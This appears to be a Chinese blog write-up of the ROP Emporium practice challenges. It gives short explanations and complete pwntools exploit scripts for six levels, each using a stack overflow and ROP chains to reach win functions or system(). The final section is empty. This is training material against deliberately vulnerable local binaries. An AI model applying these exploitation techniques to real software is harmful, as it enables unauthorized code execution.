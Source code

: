 ```yaml
---
title: ROP_Emporium
author: nepire
avatar: /images/title.ico
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2019-11-05 11:45:15
tags:
keywords:
description:
photos:
---
```

暑假去了趟Xman认识了一群大佬，也因此受到刺激成长了不少，这里就写一篇在xman时通关的ROP—Emporium的wp来记录一下自己的学习历程





## ret2win32

### 思路

简单的rop构造，ctf-wiki上好像把这种叫做ret2text

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('ret2win32')
elf = ELF('ret2win32')

bufsize = 40
buf = 'a'*bufsize
sh_addr = 0x08048659

payload = buf + 'aaaa' + p32(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## ret2win

### 思路

和上面的方法一样，只有一点差别是在64位下前6个参数是通过寄存器传递，更多的参数才入栈。

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('ret2win')
elf = ELF('ret2win')

bufsize = 0x20
buf = 'a'*bufsize
fake_ebp = 'a'*0x8
sh_addr = 0x400811

payload = buf + fake_ebp + p64(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## split32

### 思路
热身题，很直接的ret2syscall

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./split32')
elf = ELF('./split32')

system_addr = elf.plt['system']
pop_ret = 0x080483e1
sh_addr = 0x804a030
bufsize = 40
buf = 'a'*bufsize

payload = buf + 'aaaa' + p32(system_addr) + 'aaaa' + p32(sh_addr)


def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## split

### 思路
64位的ret2syscall,比如我们想要传入一个参数，那这个参数需要被布置到寄存器rdi中，这时我们可以寻找诸如pop rdi;ret的代码片段，从而在执行完pop rdi后把栈上布置好的数据存放到寄存器rdi中后能够再次控制程序执行流（ret）

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./split')
elf = ELF('./split')

bufsize = 32
buf = 'a'*bufsize
system_addr = elf.plt['system']
pop_rdi_ret = 0x400883
sh_addr = 0x601060

payload = buf + 'a'*8 + p64(pop_rdi_ret) + p64(sh_addr) + p64(system_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme32

### 思路
ret2libc的简单利用，审计过程序和libccallme32.so不难理解要得到flag要依次调用callme_one(1,2,3),callme_two(1,2,3),callme_three(1,2,3),这三个函数都是定义在libccallme32里,所以我们可以像调用system去调用(注意堆栈平衡)

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./callme32')
elf = ELF('./callme32')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x080488a9
bufsize = 0x28
buf = 'a'*bufsize
argv = p32(1)+p32(2)+p32(3)

payload = buf + 'aaaa'
payload += p32(callme_one)+p32(ppp_ret)+argv
payload += p32(callme_two)+p32(ppp_ret)+argv
payload += p32(callme_three)+p32(ppp_ret)+argv

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme

### 思路
和32位差不多，不过不用考虑堆栈平衡(注意64位和32位的差别)

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./callme')
elf = ELF('./callme')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x401ab0
bufsize = 0x20
buf = 'a'*bufsize
argv = p64(1) + p64(2) + p64(3)

payload  = buf + 'a'*8
payload += p64(ppp_ret) + argv + p64(callme_one)
payload += p64(ppp_ret) + argv + p64(callme_two)
payload += p64(ppp_ret) + argv + p64(callme_three)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## write432

### 思路



### exp
```python

```
